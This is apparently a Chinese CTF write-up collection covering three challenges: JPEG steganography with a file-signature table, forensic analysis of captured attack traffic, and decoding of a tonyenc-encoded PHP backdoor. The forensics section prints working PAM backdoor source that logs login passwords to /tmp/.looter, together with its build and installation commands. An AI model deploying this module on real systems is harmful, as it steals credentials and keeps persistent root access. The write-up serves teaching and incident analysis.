NSSCTF WP 13
===

## [MISC] [BJDCTF 2020] 藏藏藏

### 题解

题目是一个 jpg 文件, 应该是某种隐写, 先用 `stegsolve` 打开:





注意, 这是一个非常可疑的 ZIP 文件头;

> 稍后会总结常见的隐写文件头;

用 `foremost` 分离:

```bash
foremost ccc.jpg
```



压缩文件没有密码, 解压后是一个文档, flag 就在文档的 二维码里。

### 常见隐写文件头

- 压缩包

|格式|十六进制 (Hex)|ASCII 标识|备注|
|----|----|----|----|
|ZIP|`50 4B 03 04`|`PK..`|存档文件的开始|
|ZIP (Empty)|`50 4B 05 06`|`PK..`|目录结束符（常用于寻找文件尾）|
|RAR 4.x|`52 61 72 21 1A 07 00`|`Rar!...`|经典 RAR 格式|
|RAR 5.0|`52 61 72 21 1A 07 01`|`Rar!...`|RAR5 格式|
|7-Zip|`37 7A BC AF 27 1C`|`7z..'.`|高压缩比格式|

- 图片

|格式|十六进制 (Hex)|ASCII 标识|备注|
|----|----|----|----|
|JPEG|`FF D8 FF E0` (或 `E1`)|`....` (不可读)|结尾通常为 `FF D9`|
|PNG|`89 50 4E 47 0D 0A 1A 0A`|`.PNG....`|隐写常藏在 IDAT 块或 IHDR 高度修改中|
|GIF 89a|`47 49 46 38 39 61`|`GIF89a`|常见的动图格式，易隐藏多帧数据|
|GIF 87a|`47 49 46 38 37 6`1|`GIF87a`|较旧的 GIF 格式|
|BMP|`42 4D`|`BM`|位图，常用于 LSB（最低有效位）隐写|
|WebP|`52 49 46 46 .... 57 45 42 50`|`RIFF....WEBP`|谷歌的图片格式|

- 文档

| 格式 | 十六进制 (Hex) | ASCII 标识 | 备注 |
| ---- | -------------- | ---------- | ---- |
|PDF	|`25 50 44 46`	|`%PDF`|	结尾为 `%%EOF`|

- **其他特征**
    
    - `FF D9` 之后还有数据： JPEG 文件的合法结尾是 `FF D9`，如果这之后还有大量 Hex 内容，说明后面强行捆绑了另一个文件;
    
    - `IEND` 之后有数据： PNG 的**结尾块**是 `IEND` (`49 45 4E 44 AE 42 60 82`)，之后的数据均为非法载荷。
    
    - `50 4B 03 04` 出现多次： 一个 ZIP 文件内如果**多次**出现这个头，说明它包含多个文件，或者在一个大文件里**嵌入**了小 ZIP。
    
    - Base64 字符串特征: 如果在 ASCII 区看到 `TVqQAAMAAAAEAAAA` (Windows PE 程序 `.exe` 转 **Base64** 的开头), 说明图片/文档里藏了一个可执行程序。

## [MISC] [陇剑杯 2021] jwt（问6）

### 题解

> 题目: 昨天，单位流量系统捕获了黑客攻击流量，请您分析流量后进行回答：黑客在服务器上修改了一个配置文件，文件的绝对路径为___。（请确认绝对路径后再提交）。

题目是一份 `wireshark` 可打开的追踪流; 

#### Wireshark 基本使用

简单审计一下, 攻击者尝试访问了 `/access.log` 作为攻击面, 追踪流:






追踪发现攻击者尝试了 `/exec` 执行任意命令:

第一次 `/exec` 失败了, 之后攻击者然后用管理员身份登录, 执行了一系列指令, 最后执行成功了; 



简单审计一下可以看到都是 `POST /exec`, 过滤一下: 

```
http
http.request.method == "POST"
http.request.method == "POST" && http.request.uri contains "/exec"
```

过滤后依次点击查看, 发现了环境劫持脚本:

#### 攻击溯源



继续跟进, 攻击指令:

```bash
echo I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDxzdGRsaWIuaD4KI2luY2x1ZGUgPGN1cmwvY3VybC5oPgojaW5jbHVkZSA8c3RyaW5nLmg+CiNpbmNsdWRlIDxzZWN1cml0eS9wYW1fYXBwbC5oPgojaW5jbHVkZSA8c2VjdXJpdHkvcGFtX21vZHVsZXMuaD4KI2luY2x1ZGUgPHVuaXN0ZC5oPgpzaXplX3Qgd3JpdGVfZGF0YSh2b2lkICpidWZmZXIsIHNpemVfdCBzaXplLCBzaXplX3Qgbm1lbWIsIHZvaWQgKnVzZXJwKQp7CnJldHVybiBzaXplICogbm1lbWI7Cn0KCnZvaWQgc2F2ZU1lc3NhZ2UoY2hhciAoKm1lc3NhZ2UpW10pIHsKRklMRSAqZnAgPSBOVUxMOwpmcCA9IGZvcGVuKCIvdG1wLy5sb290ZXIiLCAiYSsiKTsKZnB1dHMoKm1lc3NhZ2UsIGZwKTsKZmNsb3NlKGZwKTsKfQoKUEFNX0VYVEVSTiBpbnQgcGFtX3NtX3NldGNyZWQoIHBhbV9oYW5kbGVfdCAqcGFtaCwgaW50IGZsYWdzLCBpbnQgYXJnYywgY29uc3QgY2hhciAqKmFyZ3YgKSB7CnJldHVybiBQQU1fU1VDQ0VTUzsKfQoKUEFNX0VYVEVSTiBpbnQgcGFtX3NtX2FjY3RfbWdtdChwYW1faGFuZGxlX3QgKnBhbWgsIGludCBmbGFncywgaW50IGFyZ2MsIGNvbnN0IGNoYXIgKiphcmd2KSB7CnJldHVybiBQQU1fU1VDQ0VTUzsKfQoKUEFNX0VYVEVSTiBpbnQgcGFtX3NtX2F1dGhlbnRpY2F0ZSggcGFtX2hhbmRsZV90ICpwYW1oLCBpbnQgZmxhZ3MsaW50IGFyZ2MsIGNvbnN0IGNoYXIgKiphcmd2ICkgewppbnQgcmV0dmFsOwpjb25zdCBjaGFyKiB1c2VybmFtZTsKY29uc3QgY2hhciogcGFzc3dvcmQ7CmNoYXIgbWVzc2FnZVsxMDI0XTsKcmV0dmFsID0gcGFtX2dldF91c2VyKHBhbWgsICZ1c2VybmFtZSwgIlVzZXJuYW1lOiAiKTsKcGFtX2dldF9pdGVtKHBhbWgsIFBBTV9BVVRIVE9LLCAodm9pZCAqKSAmcGFzc3dvcmQpOwppZiAocmV0dmFsICE9IFBBTV9TVUNDRVNTKSB7CnJldHVybiByZXR2YWw7Cn0KCnNucHJpbnRmKG1lc3NhZ2UsMjA0OCwiVXNlcm5hbWUgJXNcblBhc3N3b3JkOiAlc1xuIix1c2VybmFtZSxwYXNzd29yZCk7CnNhdmVNZXNzYWdlKCZtZXNzYWdlKTsKcmV0dXJuIFBBTV9TVUNDRVNTOwp9|base64 -d >/tmp/1.c
```

攻击脚本解码:

```c
#include <stdio.h>
#include <stdlib.h>
#include <curl/curl.h>
#include <string.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <unistd.h>
size_t write_data(void *buffer, size_t size, size_t nmemb, void *userp)
{
return size * nmemb;
}

void saveMessage(char (*message)[]) {
FILE *fp = NULL;
fp = fopen("/tmp/.looter", "a+");
fputs(*message, fp);
fclose(fp);
}

PAM_EXTERN int pam_sm_setcred( pam_handle_t *pamh, int flags, int argc, const char **argv ) {
return PAM_SUCCESS;
}

PAM_EXTERN int pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
return PAM_SUCCESS;
}

// 核心函数：PAM认证时的核心入口（所有PAM认证都会调用此函数）
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
    int retval;
    const char* username;  // 存储用户名
    const char* password;  // 存储密码
    char message[1024];
    
    // 1. 从PAM上下文获取登录用户名
    retval = pam_get_user(pamh, &username, "Username: ");
    // 2. 从PAM上下文获取登录密码（PAM_AUTHTOK是密码的标识）
    pam_get_item(pamh, PAM_AUTHTOK, (void *) &password);
    
    // 3. 不影响正常认证（返回PAM_SUCCESS），隐藏自身
    if (retval != PAM_SUCCESS) {
        return retval;
    }
    
    // 4. 将用户名+密码写入/tmp/.looter文件（攻击者后续可读取）
    snprintf(message,2048,"Username %s\nPassword: %s\n",username,password);
    saveMessage(&message);
    return PAM_SUCCESS;  // 关键：返回成功，让正常认证流程不受影响
}
```


接下来攻击者确认了 `/tmp` 目录下的攻击脚本已写入, 并原地编译:



```bash
echo Q0ZMQUdTICs9IC1XZXJyb3IgLVdhbGwKCmxvb3Rlci5zbzogbG9vdGVyLmMKCWdjYyAkKENGTEFHUykgLWZQSUMgLXNoYXJlZCAtWGxpbmtlciAteCAtbyAkQCAkPCAtbGN1cmw=|base64 -d >/tmp/Makefile
```

也就是创建了这个 Makefile 文件:

```makefile
CFLAGS += -Werror -Wall

looter.so: looter.c
    gcc $(CFLAGS) -fPIC -shared -Xlinker -x -o $@ $< -lcurl
```

> 注意: `-fPIC -shared` Linux 共享库必须是 “位置无关代码（PIC）”, `-shared` 指定生成 `.so` 共享库，这是恶意模块能被 PAM 加载的前提;

之后攻击者直接进入 `/tmp` 执行了 `make`; 然后拷贝进 c 的共享库里, 到此为止这是一个非常典型的环境共享库劫持;

```bash
cd /tmp; make
mv /tmp/1.c /tmp/looter.c
cp /tmp/looter.so /lib/x86_64-linux-gnu/security/
ls /lib/x86_64-linux-gnu/security/
echo "auth optional looter.so"
echo "\nauth optional looter.so"
echo "auth optional looter.so">>/etc/pam.d/common-auth
service ssh restart
whoami
```

> `optional` 表示该模块的认证结果不影响最终结果，但会执行其中的代码。(可以理解为某种*旁路*)

> 最后一步时, 服务器返回了 `root`, 说明已经提权成功

到这里, 追踪到了修改的配置文件路径为: `/etc/pam.d/common-auth`;

> 这个路径是 Debian/Ubuntu 等系统下 PAM 认证的通用配置文件。通过在其中添加一行 `auth optional looter.so`，使得恶意模块被加载到认证栈中。

#### 劫持分析

这是一次典型的 **PAM（可插拔认证模块）后门攻击**，攻击者通过修改 PAM 配置文件，植入恶意模块来窃取用户凭证（用户名和密码），最终实现权限维持或提权。

攻击者上传的这段 C 程序的作用是 (旁路) 监听任何 PAM 模块的身份信息; 代码关键部分的分析写在了注释里。

当管理员或 `root` 用户通过 SSH 登录时，其密码被记录。攻击者后续可利用此密码直接登录为 `root` 。

## [WEB + REVERSE] [UUCTF 2022] backdoor

### 题解

打开是一个没有太多价值的网页, 尝试一下目录, 发现 `/robots.txt` 有内容:

```
www.zip
```

那么下载源码, 顺便用 dirsearch 再扫扫;

下载源码发现有个 `backdoor.php`:



一堆乱码, 暂时看不出来是什么加密 / 编码;



接下来尝试 `phpinfo.php`, 可惜是个假 flag;



这个 `.so` 是一个二进制文件, 用 IDA 打开:



结合入口函数和函数名可以得知这是一个 tonyenc_encode 的对 php 文件的编码器;

> 参考: [CSDN](https://blog.csdn.net/bossDDYY/article/details/127671924?spm=1001.2014.3001.5506)

在 IDA 中搜字符串能直接搜到 key, 之后基于文件逻辑反推解码即可;

反编译加密代码:

```c
void __fastcall tonyenc_encode(char *data, size_t len)
{
  __int64 v2; // rax
  __int64 v3; // rdx

  v2 = 0LL;
  v3 = 0LL;
  if ( len )
  {
    while ( len != ++v2 )
    {
      while ( (v2 & 1) != 0 )
      {
        v3 = (tonyenc_key[v3] + (_BYTE)v2 + (_BYTE)v3) & 0xF;
        data[v2] = ~(tonyenc_key[v3] ^ data[v2]);
        if ( len == ++v2 )
          return;
      }
    }
  }
}
```

exp:

```python
import base64

with open('backdoor.php','rb') as f:
    data = f.read()

key = [
    0x9f, 0x58, 0x54, 0x00,
    0x58, 0x9f, 0xff, 0x23,
    0x8e, 0xfe, 0xea, 0xfa,
    0xa6, 0x35, 0xf3, 0xc6
]

def decode(data, length):
    p = 0
    for i in range(0, length):
        if (i & 1):
            p += key[p] + i
            p %= 16
            t = key[p]
            data[i] = ~data[i] ^ t
            if data[i] < 0:
                data[i] = data[i] + 256
    return "".join([chr(c) for c in data])

encodefile_content = data[12:]
convert = [c for c in encodefile_content]
print(decode(convert, len(convert)))
```



得到后门;



